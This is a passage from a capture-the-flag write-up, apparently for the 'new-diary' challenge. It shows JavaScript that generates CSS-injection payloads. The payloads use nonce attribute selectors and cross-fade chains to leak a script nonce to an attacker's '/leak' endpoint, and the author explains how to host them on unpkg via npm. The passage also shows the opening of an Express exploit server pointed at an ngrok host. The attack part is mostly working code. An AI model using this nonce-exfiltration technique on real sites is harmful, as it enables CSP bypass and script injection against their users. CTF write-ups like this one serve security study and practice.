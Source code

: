 ``` js
let payload1 = ''
let crossPayload1 = 'url("/")'
let payload2 = ''
let crossPayload2 = 'url("/")'
let payload3 = ''
let crossPayload3 = 'url("/")'

const third = Math.floor(arr.length / 3);
const arr1 = arr.slice(0, third); 
const arr2 = arr.slice(third, 2 * third); 
const arr3 = arr.slice(2 * third); 

for(let str of arr1) {
    payload1 += `script[nonce*="${str}"]{--${str}:url("${host}/leak?q=${str}")}\n`
    crossPayload1 = `-webkit-cross-fade(${crossPayload1}, var(--${str}, none), 50%)`
}

for(let str of arr2) {
    payload2 += `script[nonce*="${str}"]{--${str}:url("${host}/leak?q=${str}")}\n`
    crossPayload2 = `-webkit-cross-fade(${crossPayload2}, var(--${str}, none), 50%)`
}

for(let str of arr3) {
    payload3 += `script[nonce*="${str}"]{--${str}:url("${host}/leak?q=${str}")}\n`
    crossPayload3 = `-webkit-cross-fade(${crossPayload3}, var(--${str}, none), 50%)`
}

payload1 = `${payload1} script{display:block;} script{background-image: ${crossPayload1}}`
payload2 = `${payload2}script:after{content:'a';display:block;background-image:${crossPayload2} }`
payload3 = `${payload3}script:before{content:'a';display:block;background-image:${crossPayload3} }`

fs.writeFileSync('exp1.css', payload1, 'utf-8');
fs.writeFileSync('exp2.css', payload2, 'utf-8');
fs.writeFileSync('exp3.css', payload3, 'utf-8');
```

Then publish the completed file to npm to get a URL on unpkg.

### Exploit

The code is a bit messy and I'm too lazy to organize it, but basically, after running it, accessing `/start` will automatically start the entire process.

Fortunately, I had read that article before, so I roughly knew how to solve it half an hour after the competition started. I spent the remaining two hours writing code 😆

``` js
import express from 'express'
import {fetch, CookieJar} from "node-fetch-cookies";

const app = express()
const port = 3000

const host = 'http://new-diary.ctf.0ops.sjtu.cn'
const selfHost = 'https://ip.ngrok-free.app'
const cssUrl = 'https://unpkg.com/your_pkg@1.0.0'

const getRandomStr = len => Array(len).fill().map(_ => Math.floor(Math.random()*16).toString(16)).join('')

let leaks = []
let cookieJar = new CookieJar();
let username = '';
let hasToken = false;

```